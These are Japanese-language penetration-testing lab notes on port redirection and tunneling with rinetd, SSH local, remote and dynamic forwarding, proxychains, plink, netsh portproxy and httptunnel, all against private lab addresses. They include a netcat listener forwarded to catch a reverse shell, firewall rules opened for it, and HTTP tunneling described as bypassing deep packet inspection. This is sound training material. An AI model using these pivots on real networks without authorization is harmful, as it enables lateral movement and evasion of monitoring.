# Port Redirection And Tunneling

### RINETD

* インストール

  ```
  sudo apt update && sudo apt install rinetd
  ```

* 設定ファイルの編集

  ```
  vi /etc/rinetd.conf
  
  ---
  # bindadress    bindport  connectaddress  connectport
  0.0.0.0 80  172.217.175.46 80
  ----
  ```

* サービスを再起動する

  ```
  sudo systemctl restart rinetd.service
  ss -atnp | grep 80
  ```

* kaliの80ポートで受信したデータはすべてGoogleのサーバーに転送される。（応答はLinux clientで受信できる）

  


### SSHローカルポートフォーワーディング

```
ssh -N -L [bind_address:]port:host:hostport [username@address]
sudo ssh -N -L 0.0.0.0:445:172.16.250.5:445 student@192.168.250.44
```



* 自分自身にsshしてポートフォーワードする方法

  ```bash
  ssh -L 0.0.0.0:8888:192.168.250.10:3389 student@127.0.0.1
  ```

  

### SSHリモートポートフォワーディング

リモート先のホストがインバウンドの22は閉じているが、アウトバウンドの22は開いているという場合、リモートホスト先からSSHしてローカルホストの通信を転送することができる

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 192.168.119.250:2221:127.0.0.1:3306 kali@192.168.119.250
```



※SSHを実行するのは参照したいホスト側からという点に注意
※1024ポート以上じゃないとroot権限が必要になるので注意

##### パターン２：攻撃対象ホストの内部ポートに対してリバースシェルが来ているが、ホストにリスナーがない場合

* kaliでリスナーを作る

  ```bash
  # kali
  nc -lp 4444 -s 127.0.0.1
  ```

* 作ったリスナーをリモートポートフォーワーディングで攻撃対象の内部ポートに転送（公開）する

  ```bash
  # kali
  ssh -R:5555:localhost:4444 student@192.168.250.52 -N
  ```

  https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding

  ↑イメージの参考になるサイト


### SSH Dynamic Port Forwarding

ポートを特定せずにproxychainを利用してリモートの宛先にトラフィック転送をする

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

```bash
# kali
sudo ssh -N -D 127.0.0.1:8080 student@192.168.250.44
```

プロキシチェーンの設定をする

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf 
└─$ cat /etc/proxychains4.conf 
---
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 8080 

```

構成図



nmapしてみる

```bash
sudo proxychains nmap --top-ports=20 -sT -Pn 172.16.250.5
```

ブラウザアクセスの場合

sock4でfoxyproxyを設定する



※またアクセスするときはローカルホストや127.0.0.1などではなく、攻撃対象ホストの内部ホストのIPアドレスを正しく指定する必要がある。

### Plink.exe(windows)

* sshに似たツール

```
PS C:\Tools\port_redirection_and_tunneling> .\plink.exe
```



* リモートポートフォーワーディングの例

```bash
./plink.exe -ssh -l kali -pw Rasio4948 -R 192.168.119.250:1234:127.0.0.1:3306 192.168.119.250
```

```bash
cmd.exe /c echo y | plink.exe -ssh -l kali -pw Rasio4948 -R 192.168.119.250:1234:127.0.0.1:3306 192.168.119.250
```

* 確認

```
# kali
sudo nmap -sS -sV 127.0.0.1 -p 1234
```


### netsh(windows)

以下構成で4455を445にローカルポートフォワードし、ファイアウォールを許可した後でSMBclientで接続する



前提条件

* WindowsのサービスプログラムからIP Helperサービスが起動していること



* ネットワークインターフェイスの設定でIPv6対応を確認できること

  

ローカルポート接続する

```cmd
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.250.10 connectport=445 connectaddress=172.16.250.5
```



ファイアーウォールでインバウンドの4455を許可する

```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.250.10 localport=4455 action=allow
```

SMBclientでkaliから接続する

```
sudo nano /etc/samba/smb.conf'
cat /etc/samba/smb.conf
sudo /etc/init.d/smbd restart
smbclient -L 192.168.250.10 --port=4455 --user=Administrator
```



```bash
smbclient -L 192.168.250.10 --port=4455 --user=Administrator
```

マウントを作成し確認してみる

```bash
┌──(kali㉿kali)-[~]
└─$ sudo mkdir /m                                                                                
media/ mnt/   
┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/win10_share                                                                  
[sudo] kali のパスワード:

┌──(kali㉿kali)-[~]
└─$ sudo mount -t cifs -o port=4455 //192.168.250.10/Data -o username=Administrator,password=lab /mnt/win10_share

┌──(kali㉿kali)-[~]
└─$ ls -l /mnt/win10_share/                                                                      
合計 1
-rwxr-xr-x 1 root root 4  1月 22  2020 data.txt

┌──(kali㉿kali)-[~]
└─$ cat /mnt/win10_share/data.txt
data
```


### HTTPTunnel-ing

sshが閉じられている場合、httpでトンネルする手法にHTTPtunnelがある





* インストール（サーバーとクライアントどちらにもインストールが必要）

  ```
   apt-cache search httptunnel
   sudo apt install httptunnel
  ```

* debianからwindowsにSSHポートフォワードする

  ```
  ssh -L 0.0.0.0:8888:192.168.250.10:3389 student@127.0.0.1
  ss -antp | grep "8888"
  ```

  ※自分自身にsshしてポートフォワードする

* debianの1234ポートをdebianの8888に転送（リダイレクトする）

  ※htsでサーバを立てている

  ```bash
  # debian
  hts --forward-port localhost:8888 1234
  ps aux | grep hts
  ss -antp | grep "1234"
  ```

  

* kaliの8080とdebianの1234をhttpトンネルする

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ htc --forward-port 8080 192.168.250.44:1234
  
  ┌──(kali㉿kali)-[~]
  └─$ ps aux | grep htc
  kali      117746  0.0  0.0   2556   100 ?        Ss   11:50   0:00 htc --forward-port 8080 192.168.250.44:1234
  kali      117828  0.0  0.0   7392  2224 pts/4    R+   11:50   0:00 grep --color=auto htc
  
  ┌──(kali㉿kali)-[~]
  └─$ ss -antp | grep "8080"                                                                       
  LISTEN 0      0              0.0.0.0:8080         0.0.0.0:*    users:(("htc",pid=117746,fd=4)) 
  ```

* 確認

  

  ```
  rdesktop 127.0.0.1:8080
  ```

  

  Excellent!リモートデスクトップ接続に成功しました。

  Wiresharkでトラフィックを検査したところ、確かにHTTPでカプセル化されており、ディープパケットコンテンツ検査装置をバイパスしていることが確認されました。

  

  

### 【Windows】netshを利用してポートフォワード



* ポートフォワード設定(win10 clientで実施)

```cmd
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=1234 connectaddress=192.168.119.179
```

* 確認

  ```
  netstat -ano | findstr :4444
  ```

* ファイアウォールの設定(win10 clientで実施)

  ```cmd
  netsh advfirewall firewall add rule name="forwarded_revshell_4444" protocol=TCP dir=out localip=0.0.0.0 localport=1234 action=allow
  ```

* 確認

  ```
  netsh interface portproxy show all
  ```

  

* kaliで受信

  

参考サイト：https://woshub.com/port-forwarding-in-windows/
